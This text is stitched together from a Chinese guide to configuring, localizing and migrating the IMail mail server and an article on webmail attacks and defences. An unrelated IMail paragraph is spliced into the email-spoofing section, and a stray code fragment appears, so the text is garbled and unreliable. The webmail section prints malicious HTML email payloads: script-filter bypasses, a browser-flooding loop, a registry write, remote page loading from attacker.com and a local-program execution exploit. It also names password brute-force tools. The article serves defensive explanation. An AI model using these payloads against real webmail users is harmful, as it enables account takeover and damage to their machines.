

命名为“mail”，见图6：

然后指定此虚拟目录的真实物理路径，见图7。



图 7

最后指定此虚拟目录的文档属性，见图8：



图 8

添加“useradd.html”作为默认文档。至此，IMail 的邮箱申请页面就做成了。

## 四、汉化 Web 界面

用户可以不借助邮件客户端软件，利用浏览器也可以访问自己的电子邮件，就像 Internet 上的 Web 邮件网站一样。按照 IMail 的默认设置，用户可以在浏览器的地址中输入：http:// 安装 IMail 服务器的 IP 或 DNS 名称:8383。使用 IMail 的 Web 用户日程表是：http:// 安装 IMail 服务器的 IP 或 DNS 名称:8484。

IMail 的 web 界面倒是简洁，可惜都是英文，给英文基础不好的用户造成了一定的不便。而且，界面没有专业邮件服务网站的美观、个性。但是 IMail 的 Web 界面该有的功能一样都不缺。其实可以使用擅长的网页编辑软件，如 Dreamweaver 来修改 IMail 目录下的子目录 Web 下的相关文件，来达到汉化、美观 IMail 默认的 Web 界面。

IMail 的 Web 界面是以 HTML 文件和 CGI 程序相结合，只要熟悉 HTML，加之有一定的英文底子，就可以自己汉化 Web 界面。

由于 IMail 的 Web 页面多达 200 多个，限于篇幅，此处不准备一一列举 HTML 文件的作用和名称，只列举几个比较常用的 HTML 文件。汉化完毕的 HTML 文件，笔者已经打包附后，读者可以将此压缩包解压释放到 \IMail\Web 下，覆盖原有的 HTML 文件。注意：须做好备份。IMail 也提供 Web 形式的用户日程列表，其 Web 页面放在 \IMail\Web\Calendar\，需要汉化的 HTML 文件也多达 100 个。笔者也已经将汉化完的 HTML 文件打包附后，只要将此解压释放到 \IMail\Web\Calendar\就可以达到汉化Web界面的目的。

需要汉化的、比较常用的 HTML 文件如下：

- 登陆页面：login.html、frames.html。
- 主屏幕页面：menu.html。
- 发送邮件页面：sendmail.html。
- 搜索邮件页面：search.html。
- web 邮箱主界面页面：msgsum.html。
- 阅读邮件页面：readmail.html。
- 恢复邮件页面：replaymsg1.html。
- 转发邮件页面：fwdmsg1.html、chgfwd.html、fwdmsg.html。
- 更改用户邮箱口令的页面：chgpass.html、chpasuad.html。
- 编辑用户信息页面：chgldap.html。
- 通讯录页面：ab.html。
- 邮箱管理页面：subfold.html。
- 自动回复设置页面：pref.html、autoresp.html、chgvac.html。
- 自动转信设置页面：chgfwd.html。
- 设置用户签名页面：chgsign.html、chgplan.html。
- 带 cs_ 前缀的文件都是帮助文件。

附：
useradd.html 完整源代码；useradd.asp 完整源代码；\IMail\Web\HTML 文件压缩包；\IMail\Web\Calendar\HTML 文件压缩包。

## Imail 的迁移与群件

> IMail Server 是一种易于使用的邮件服务器。不过，有时候还是会碰见一些麻烦，比如在邮件系统的迁移和邮件列表的创建时。

文/momo

常规下备份和恢复 Imail 还是比较简单的，首先是备份 Imail 的安装目录下面的所有内容（默认就是 Imail），恢复到新的安装目录即可；然后是备份注册表，这有两种办法，一种是使用 Imail 自带的备份功能，点击 General 的 Backup，会在安装目录中出现你所指定名字的文件，或者是直接备份注册表的 HKEY_LOCAL_MACHINE - Software - Ipswitch - Imail，然后导入即可。

但是，有的时候如果两个 Imail 的数据结构不一样时，就会对迁移带来一些麻烦。实际上原来自己是独占一台服务器，Imail 只是对应一个邮件服务器。由于其他原因，现有的邮件服务器要迁移到另外一台服务器上，而新服务器上的 Imail 已经有了邮件服务器，也就是说，新的 Imail 要对应多个邮件服务器，其实如果这时再新建立一个邮件服务器也没有什么问题，问题的关键就是目前备份的数据结构与新服务器不适应。

问题是这样产生的：Imail 的默认邮件服务器的路径直接使用 Imail 目录，也就是说第一个邮件服务器的默认的数据是放置在 Imail 的目录下面，比如用户信息就直接是在 Users 下，而我备份的服务器的数据由于只有一个 Host，放置的位置也是直接在 Imail 的目录下，如果按照常理恢复，必将导致数据发生冲突。解决的办法是首先在 Imail 里面建立一个新的 Host，比如 “test.com”,这个时候你会发现相应的文件目录中，在 Imail 下面出现了一个 test_com 的目录，把备份的数据放置在这个目录下面。接下来恢复你备份的注册表，好在 Ipswitch 考虑到了这个问题，在注册表的结果中已经把个 Host 分开存放，这个就比较省事了。下面要修改对应的目录，选中 test.com ，点击 General，在 Top Directory 中将原来的 C:\imail 修改为 C:\Imail\Test_com。这个时候发现 Tcp/IP Address 中的 IP 依旧为原来 IP，而且还是不可修改的，这个时候可以进入注册表进行修改，在 HKEY_LOCAL_MACHINE - Software - Ipswitch - Imail\Domains，找到你原来的 IP，然后进行修改，保存退出以后，你会发现服务器的 IP 已经改为了新的 IP。

下面的问题是针对 Imail 的群件的。在 Imail 里面，群件是比较简单的，只需要在 Lists 中创建，然后在 Users 中用 Add 创建即可。但是在应用中依靠这样建立列表可能会觉得很繁琐，比如在公司中，如果建立群件，一般都是公司全体员工有一个，然后再分部门、分地域等等，这样就会造成数据的重复输入，更危险的是由于同一条记录可能重复输入几次，很可能会导致某次输入错误，检查起来就会相当麻烦了。下面把我实际应用中的经验和大家一起分享：我们公司有一个通讯录，Excel 格式的，估计一般公司都有这个吧。表大概分部门、姓名、邮件地址、电话等等几栏，这当中邮件地址这一栏是尤其重要的，但是现在离目标还有几步，当然要坚信一定会成功。首先分析一下 Imail 群件的存放位置和格式，它是在 Lists 目录下面按照群件不同名字建立相应的目录，Lists 目录下面有一个 Lists.txt 的文件里面是你建立的群件名字和别名的对照，每个子目录下面有两个文件，一个是 Users.LST，用来存放 Address 信息，格式是： <Test@test.com>；一个是 Users.txt，用来存放 Users 信息，格式是： <Test@test.com> “test”。看起来转换好像也很麻烦，但是如果利用 Excel 的功能就很好实现了。通讯录的格式是类似 test 字样，这个时候可以在其他栏中输入 <、@test.com、> ，然后利用函数 “CONCATENATE” 通过把几栏合并成为新的一栏，其余栏复制公式就可以了。然后把该栏复制到记事本一类的程序中存为 Users.lst 文件，Users.txt 文件按照相同的方法制作（注意 " 前面有个空格），最后复制到相应的目录，再打开 Imail，你会发现数据已经输入完毕了。

# Webmail 攻防实战
文 / 孤风扬

每一个注册过免费电子邮箱的网友都会通过邮箱提供商的主页收发个人邮件，这就是所谓的 Webmail 收发方式，相比用 Foxmail、Outlook、Express 等邮件客户端收发邮件而言，Webmail 方式的优势在于突破了地域和上机地点限制，但 Webmail 收发邮件的安全隐患也是显而易见的。本文详尽全面地论述了 Webmail 易被攻击的漏洞缺陷及防范措施。

Webmail是指利用浏览器通过Web方式来收发电子邮件的服务或技术，不需借助邮件客户端，可以说，只要能上网就能使用 Webmail，极大地方便了用户对邮件的收发。对于不能熟练使用邮件客户端，或者在网吧不便使用邮件客户端的用户来说，Webmail 更是必不可少的选择。E-mail 能够成为当今 Internet 上应用最广泛的网络服务，Webmail 可谓功不可没。

由于用户的使用不当或者Webmail系统的开发不周，都有可能给 Webmail 的使用带来更多的安全威胁。同样，Webmail 系统作为当今电子邮件系统的重要组成部分，它的安全性也是不可忽视的。

## 一、邮件地址欺骗
邮件地址欺骗是非常简单和容易的。攻击者针对用户的电子邮件地址，取一个相似的电子邮件名，在 Webmail 的邮箱配置中将“发件人姓名”配置成与用户一样的发件人姓名（有些 Webmail 系统没有提供此功能），然后冒充该用户发送电子邮件，在他人收到邮件时，往往不会从邮件地址、邮件信息头等上面做仔细检查，从发件人姓名、邮件内容等上面又看不出异样，误以为真，攻击者从而达到欺骗的目的。例如某用户的电子邮件名是 wolfe，攻击者就会取 w0lfe、wolfe、wolfee、woolfe 之类相似的电子邮件名来进行欺骗。虽然免费的午餐越来越难吃，但还是有很多用户使用的是免费电子邮箱，通过注册申请，攻击者很容易得到相似的电子邮件地址。

人们通常以为电子邮件的回复地址就是它的发件人地址，其实不然。在 RFC 822 中明确定义了发件人地址和回复地址可以不一样，熟悉电子邮件客户端使用的用户也会明白这一点，在配置账户属性或撰写邮件时，可以指定与发件人地址不同的回复地址。由于用户在收到某个邮件时，虽然会检查发件人地址是否真实，但在回复时，并不会对回复地址做出仔细的检查，所以，如果配合 SMTP 欺骗使用，发件人地址是要攻击的用户的电子邮件地址，回复地址则是攻击者自己的电子邮件地址，那么这样就会具有更大的欺骗性，诱骗他人将邮件发送到攻击者的电子邮箱中。

所谓害人之心不可有，防人之心不可无。另外还要谈到的就是群件的安全性问题，默认建立群件的时候是 Anyone 都可以发送的，第一次建立的时候我没注意，结果一个广告信被发给了公司的每一位员工。后来采用 Security 中的 Subscribe 选项，但是只有群件中的用户才可以对群件进行发送，到了实际中就有一定弊端了，比如北京的员工想给上海的员工的群件列表发送邮件，由于不在对方的列表中就不可以。解决的办法有两个，一个是可以在 Security 的 Use Password 中输入 Password，如果别人不知道密码就不可以发送，但是实际还不是很方便。所以我比较推崇使用 Enable Posters List 选项，在 Edit Posters 中输入可以发送的人员的列表，当然也可以使用类似上面的简便方法，制作一个全部使用人员的文件，这个文件的名字叫做 Posters.lst，然后复制到每个群件的对应目录中就好了。

整体来说，Imail 这个软件容量不大，功能还是很完善的，由于目录和注册表的结构都比较清晰，给了用户对软件进行修改和二次开发的方便。

鉴于邮件地址欺骗的易于实现和危险性，我们不得不时时提防，以免上当受骗。对于 Webmail 系统而言，提供邮件信息头内容检查、SMTP 认证（如果该邮件系统支持 SMTP 的话）等服务技术，将邮件地址欺骗带来的危害降至最小是非常有必要的。对邮件用户而言，认真检查邮件的发件人邮件地址、发件人 IP 地址、回复地址等邮件信息头内容也是很重要的。

## 二、Webmail 暴力破解
Internet 上客户端与服务端的交互，基本上都是通过在客户端以提交表单的形式交由服务端程序（如 CGI、ASP 等）处理来实现的，Webmail 的密码验证即如此。用户在浏览器的表单元素里输入账户名、密码等信息并提交以后，服务端对其进行验证，如果正确的话，则欢迎用户进入自己的 Webmail 页面，否则，则返回一个出错页面给客户端。

因此，攻击者借助一些黑客工具，不断地用不同的密码尝试登录，通过比较返回页面的异同，判断出邮箱密码是否破解成功。帮助攻击者完成此类暴力破解的工具有不少，如 wwwhack、小榕的溯雪等，尤以溯雪的功能最为强大，它本身已经是一个功能完善的浏览器，通过分析和提取页面中的表单，给相应的表单元素挂上字典文件，再根据表单提交后返回的错误标志判断破解是否成功。

当然我们也看到，溯雪之类的 Web 探测器，可以探测到的不仅是 Webmail 的密码，像论坛、聊天室之类所有通过表单进行验证登录的账户密码都是可以探测到的。

对于 Webmail 的暴力破解，许多 Webmail 系统都采取了相应的防范措施。如果某账户在较短的时间内有多次错误登录，即认为该账户受到了暴力破解，防范措施一般有如下 3 种：

- 1. 禁用账户
把受到暴力破解的账户禁止一段时间登录，一般是 5~10 分钟，但是，如果攻击者总是尝试暴力破解，则该账户就一直处于禁用状态不能登录，导致真正的用户不能访问自己的邮箱，从而形成 DoS 攻击。

- 2. 禁止 IP 地址
把进行暴力破解的IP地址禁止一段时间不能使用 Webmail，这虽然在一定程度上解决了“禁用账户”带来的问题，但更大的问题是，这势必导致在网吧、公司、学校甚至一些城域网内共用同一 IP 地址访问 Internet 的用户不能使用该 Webmail。如果攻击者采用多个代理地址循环攻击，甚至采用分布式的破解攻击，那么“禁止 IP 地址”就难以防范了。

- 3. 登录检验
这种防范措施一般与上面两种防范措施结合起来使用，在禁止不能登录的同时，返回给客户端的页面中包含一个随机产生的检验字符串，只有用户在相应的输入框里正确输入了该字符串才能进行登录，这样就能有效避免上面两种防范措施带来的负面影响。不过，攻击者依然有可乘之机，通过开发出相应的工具提取返回页面中的检验字符串，再将此检验字符串做为表单元素值提交，那么又可以形成有效的 Webmail 暴力破解了。如果检验字符串是包含在图片中，而图片的文件名又随机产生，那么攻击者就很难开发出相应的工具进行暴力破解，在这一点上，Yahoo 电邮就是一个非常出色的例子。

虽然 Webmail 的暴力破解有诸多的防范措施，但它还是很难被完全避免；如果 Webmail 系统把一分钟内 5 次错误的登录当成是暴力破解，那么攻击者就会在一分钟内只进行 4 次登录尝试。所以，防范 Webmail 暴力破解主要靠用户自己采取良好的密码策略，如密码足够复杂、不与其他密码相同、密码定期更改等，这样，攻击者便很难暴力破解成功。

## 三、邮箱密码恢复
难免会有用户遗失邮箱密码的情况发生，为了让用户能找回密码继续使用自己的邮箱，大多数 Webmail 系统都会向用户提供邮箱密码恢复机制，让用户回答一系列问题，如果答案都正确的话，就会让用户恢复自己邮箱的密码。但是，如果密码恢复机制不够合理和安全，就会给攻击者加以利用，轻松获取他人邮箱密码。

下面是许多 Webmail 系统密码恢复机制所采取的密码恢复步骤，用户对每步提出的问题回答正确的话，才会进入下一步，否则返回出错页面，针对每一步，攻击者都有可乘之机。

- 第一步，输入账户：在进入密码恢复页面后，首先提示用户输入要恢复密码的邮箱账户。这一步对攻击者而言自然不成问题，邮箱账户就是他要攻击的目标。
- 第二步，输入生日：提示用户按年月日输入自己的生日。这一步对攻击者而言也很轻松，年月日的排列组合很小，借助溯雪等工具很快就能穷举破解出来，所以Webmail系统有必要在此采取暴力破解防范措施。并且每个用户需要注意的是，攻击者不一定来自地球的另一端，很可能就是你身边的人，或许这些人更想知道你邮箱里有什么秘密，而他们要弄清你的生日往往是件轻而易举的事情，你不是昨天才过了生日Party吗？你不是刚刚把身份证复印件交给人事部吗？所以，为了邮箱安全，用户是不是要把真实的生日做为邮箱注册信息，Webmail系统是不是一定要用户输入真实的生日做为注册信息，这还有待考虑。
- 第三步，问题回答：提示用户回答自己设定的问题，答案也是用户自己设定的答案。在这一步，攻击者往往只有靠猜测，不幸的是，很多用户的问题和答案是如此的简单，以致于攻击者能轻易的猜测出来，例如提出的问题只是知识性的问题、提出的问题和答案相同等。攻击者对用户越熟悉，成功的可能性就越大。例如有用户问“你男朋友是哪里人”，殊不知，攻击者正是她的男朋友。所以，用户把问题设置成唯有自己知道的答案至关重要，这样攻击者才很难得逞。不过不要忘了答案，否则就得不偿失了。

在用户正确完成以上各步骤以后，Webmail系统就会让用户恢复自己邮箱账户的密码。密码恢复的方式又各有不同，一般有如下几种方式，安全程度各有不同：

- 页面返回：返回的页面里显示用户的邮箱密码。这样固然方便省事，但是如果让攻击者得到密码，则能在丝毫不惊动用户的情况下使用用户的邮箱，使得攻击者能长期监视用户的邮箱使用情况，给用户带来更大的安全隐患。
- 邮件发送：将密码发送到用户注册时登记的另一个邮箱里。对于攻击者来说，忙了半天，仍然是一无所获，除非继续去攻击另一个邮箱；对于用户来说，在另一个邮箱里收到发来的密码则是一个警告，说明有攻击者猜测到了他的邮箱密码提示问题，迫使用户尽快改变自己的密码提示问题。不过，如果用户注册时登记的不是一个正确的邮箱，或者该邮箱已经失效，那么，这样不仅是攻击者，就是用户本人也永远得不到密码了。有些Webmail系统在注册时要求用户登记正确的邮件地址，并把邮箱开通的验证信息发往该邮件地址，不过这样仍然不能避免用户在邮箱失效后不能恢复自己邮箱密码的情况发生。
- 密码重设：让用户重新设置一个密码。相比“页面返回”方式，这种方式在攻击者重设密码后，用户因为不能正常登录进自己的邮箱而能察觉出受到攻击，安全性相对好一些。但是，相比“邮件发送”方式，因为攻击者能立即修改邮箱密码，少了一层保障，安全性又差一些。

由“页面返回”或“邮件发送”回来的密码可以明显看出，该电子邮件系统是把邮箱账户的密码未经加密直接以明文保存在数据库或LDAP服务器中。这样就造成很大的安全隐患，Webmail系统管理员或侵入数据库的攻击者能轻易获取用户的邮箱密码，用户却完全不知情，所以为了加大保密性，有必要将邮箱密码加密后再以密文存入数据库，最好用不可逆的单向加密算法，如md5等。

邮箱密码恢复机制是否安全，主要还是看Webmail系统提出什么样的问题、采取什么样的问答方式，例如将多个密码恢复步骤中提出的问题放在一步中一起提出，就会相应地增加攻击者的难度，从而提高安全性，像搜狐邮件、新浪邮件和Yahoo电邮等都是一些令攻击者失望的例子。

### 四、恶性HTML邮件
电子邮件有两种格式：纯文本（TXT）和超文本（Html）。Html邮件由Html语言写成，当通过支持Html的邮件客户端或以浏览器登录进入Webmail查看时，有字体、颜色、链接、图像、声音等等，给人以深刻的印象，许多垃圾广告就是以Html邮件格式发送的。

利用Html邮件，攻击者能进行电子邮件欺骗，甚至欺骗用户更改自己的邮箱密码。例如攻击者通过分析Webmail密码修改页面的各表单元素，设计一个隐含有同样表单的Html页面，预先给“新密码”表单元素赋值，然后以Html邮件发送给用户，欺骗用户说在页面中提交某个表单或点击某个链接就能打开一个精彩网页，用户照做后，在打开“精彩网页”的同时，一个修改邮箱密码的表单请求已经发向Webmail系统，而这这一切，用户完全不知情，直到下次不能登录进自己邮箱的时候才发觉。

为了防止此类Html邮件欺骗，在修改邮箱配置时，特别是修改邮箱密码和提示问题时，Webmail系统有必要让用户输入旧密码加以确认，这样能有效防止截取到当前Webmail会话的攻击者（下面会介绍）更改邮箱密码。

通过在Html邮件中嵌入恶性脚本程序，攻击者还能进行很多破坏攻击，如修改注册表、非法操作文件、格式化硬盘、耗尽系统资源、修改“开始”菜单等，甚至能删除和发送用户的邮件、访问用户的地址簿、修改邮箱账户密码等等。恶性脚本程序一般由JavaScript或VBScript脚本语言写成，内嵌在Html语言中，通过调用ActiveX控件或者结合WSH来达到破坏攻击目的。深受修改浏览器的恶性Html页面之痛，饱经“欢乐时光”邮件病毒之苦的朋友，对此应该不会陌生。下面是两个简单的恶性脚本程序：

- 1. 打开无数个浏览器窗口，直至CPU超负荷，非关机不可：
```html
<script language="JavaScript">
<!--
while (true)
{
window.open("URI"); // 如果URI就是当前页本身，那就更具破坏性。
}
//-->
</script>
```

- 2. 修改注册表
```vbscript
<script language="VBScript">
Set RegWsh = CreateObject("WScript.Shell")
' 设置IE浏览器默认页
RegWsh.RegWrite "HKCU\Software\Microsoft\Internet Explorer\Main\Start Page", "http://www.attacker.com"
</script>
```

鉴于脚本程序可能带来的危险，Webmail系统完全有必要禁止Html邮件中的脚本程序。禁止脚本程序的基本做法就是过滤掉Html源程序中能够使脚本程序运行的代码，如Script元素等，在这方面做的最好的莫过于Hotmail了。下面是些常见的绕过脚本程序过滤的方法，不少的Webmail系统仍然没有完全改正：

- (1) 在Html语言里，除了Script元素内的或在script元素内引入的脚本程序能在Html页面装载时被运行外，使用事件属性也能调用脚本程序运行。事件属性在JavaScript语言里被称为事件句柄，用于对页面上的某个特定事件（如鼠标点击、表单提交）做出响应，驱动javascript程序运行。它的语法如下：
```html
<tag attribute1 attribute2 onEventName="javascript code;">
例如：
<body onload="alert('JavaScript#1 is executed');">
<a href="#" onclick="alert('JavaScript#2 is executed');">Click here</a>
<form method="post" action="#" onsubmit="alert('JavaScript#3 is executed');">
<input type="submit" value="Submit">
</form>
</body>
```

- (2) URI (Universal Resource Identifier: 通用资源标识) 用于定位Internet上每种可用的资源，如HTML文档、图像、声音等。浏览器根据URI的资源类型（URI scheme）调用相应的程序操作该资源，如果把一些元素的URI属性值的资源类型设为javascript，则能够调用javascript程序运行。语法如下（注意要用“;”分隔不同的javascript语句）：
```html
<tag attribute="javascript:javascript-code;">
例如：
<body background="javascript:alert('JavaScript#1 is executed');">
<a href="javascript:alert('JavaScript#2 is executed');">Click here</a>
<form method="post" action="javascript:alert('JavaScript#3 is executed');">
<input type="submit" value="Submit">
</form>

</body>
```

- (3) 由于软硬件或其他原因，一些冷僻或特殊的字符不能输入或正确显示在Html页面上，为了解决这个问题，Html中可以使用SGML字符参考。字符参考是一种用来指定文档字符集中任何字符的独立编码机制，以“&”开始，以“;”结束。字符参考有两种表达方式：数字字符参考和实体字符参考。数字字符参考的语法为“&#D;”(D代表一个十进制数)，或“&#xH;”、“&#XH;”(H代表一个十六进制数)，例如“&#65;”、“&#x41;”表示字母“A”，“&#27700;”、“&#x6C34;”表示汉字“水”。

攻击者把Html语句里的一些字符以数字字符参考来代替，这样能避开Webmail系统对脚本程序的过滤。需要注意的是，元素和属性不可以用字符参考表示，例如：
```html
<body>

<a href="&#x6a;av&#x41;s&#67;ript&#x3a;ale&#x72;t('JavaScript#2 &#x69;&#x73 executed')">Click her&#x65;</a>
<form method="post" action="javascript:alert('JavaScript#3 is executed')">
<input type="&#x53;ubmit" value="Submit">
</form>
</body>
```
```
97,108,101,114,116,40,39,84,101,115,116,32,50,39,41,59));
```
能够绕过Webmail系统对脚本程序过滤的方法远不止上面所说的这些，例如曾有人发现把“<script>”标签改成“<_a<script>”和“<<script>”的样子就能绕过yahoo电邮的过滤，这个漏洞yahoo在最近才改正过来。

除了可以在Html邮件中直接嵌入脚本程序外，攻击者还可以设计一些Html代码，在用户打开Html邮件时，不知不觉引入另一个Html文件，而此文件中正含有恶性代码，这样不仅能直接绕过Webmail系统对脚本程序的过滤，而且还能有效避开提供了防毒服务的邮件系统对恶性代码的查杀。下面是几个调用Html文件的例子：

- 1. Refresh到另一个页面
```html
<body>
<meta http-equiv="refresh" content="1;URL=http://www.attacker.com/another.htm">
</body>
```

- 2. Iframe引入另一个页面
```html
<body>
<iframe src="http://www.attacker.com/import.htm" frameborder="0"></iframe>
</body>
```

- 3. Scriptlet引入另一个页面
```html
<body>
<object type="text/x-scriptlet" data="http://www.attacker.com/import.htm"></object>
</body>
```

- (4) 样式表是层叠样式表单(CSS: Cascading Style Sheet)的简称，用于控制、增强或统一网页上的样式(如字体、颜色等)，它能够将样式信息与网页内容相分离，在Html语言的style标签内可以用@import声明输入一个样式表。但是，如果输入的资源类型或内容是javascript，Internet Explorer浏览器仍然会执行。例如：
```html
<style type="text/css">
<!--
@import url(javascript:alert('JavaScript#1 is executed'));
@import url(http://www.attacker.com/js.css);
-->
</style>
```
其中http://www.attacker.com/js.css的内容如下所示：
```css
@import url(javascript:alert('JavaScript#2 is executed'));
@import url(javascript:eval(String.fromCharCode(97,108,101,114,116,40,39,84,101,115,116,32,49,39,41,59,))
```
攻击者还可以采取如下方法，使带有恶性代码的html邮件具有更大的隐蔽性：
- 1. 配合邮件欺骗技术，使用户不会怀疑收到的邮件，并且攻击者也能隐藏自己的行踪；
- 2. 把Html邮件设计成看起来像TXT邮件；
- 3. 有时可以把Html邮件中的恶性代码放在一个隐藏的层里面，表面上看不出任何变化。

针对恶性脚本程序的影响，对用户常见的建议办法是提高浏览器的安全级别，如禁用ActiveX、脚本等，但这并不是一个很好的办法，因为这样会影响到用户对其他正常 Html 页面的浏览。即使浏览器达到了最高级别，依然对某些恶性代码无济于事。下面是一位以色列安全专家发现的漏洞，能让 Windows 系统自动执行任何本地程序，即使 Internet Explorer 已经禁止了 ActiveX 和脚本程序：

```
<span datasrc="#oExec" datafld="exploit"
dataformatas="html"></span>
<xml id="oExec">
<security>
<exploit>
<![CDATA[
<object id="oFile" classid="clsid:1111111-1111-1111-1111-111111111111" codebase="c:/winnt/system32/calc.exe"></object>
]]>
</exploit>
</security>
</xml>
```

面对恶性 Html 邮件，Webmail 系统和用户似乎都没有很好的解决办法，虽然许多 Webmail 系统已经能够过滤掉 Html 邮件中的很多恶性代码。不过令人遗憾的是，要想彻底过滤掉恶性代码并不是一件容易的事情，攻击者总能利用 Webmail 系统过滤机制和浏览器的漏洞找到办法绕过种种过滤，Webmail 系统所能做的就是发现一个漏洞弥补一个漏洞。

为了减少乃至避免恶性 Html 邮件的影响，在打开 Html 邮件之前，Webmail 系统有必要提醒用户这是一个 Html 邮件，如果能提供让用户以文本方式浏览 Html 邮件的功能，则是最好不过。在打开不明邮件之前，用户更要小心谨慎，最好把 Html 邮件“目标另存为”到本地硬盘上再打开来看，如果能先查看 Html 邮件源代码，则是最好不过的。

另外需要特别提醒用户注意的是，虽然一些电子邮件系统会在 Webmail 系统上对 Html 邮件中的恶性代码进行过滤，但在 POP3 服务器上不会进行过滤，所以，如果是通过邮件客户端收取邮件，仍然要谨防恶性 Html 邮件的危害。

## 五、Cookie 会话攻击

当用户以自己的邮箱账户和密码登录进 Webmail 以后，如果再让用户对每一步操作都输入密码加以确认，就会让人不胜其烦。所以 Webmail 系统有必要进行用户会话跟踪，Webmail 系统用到的会话跟踪技术主要有两种：cookie 会话跟踪和 URL 会话跟踪。

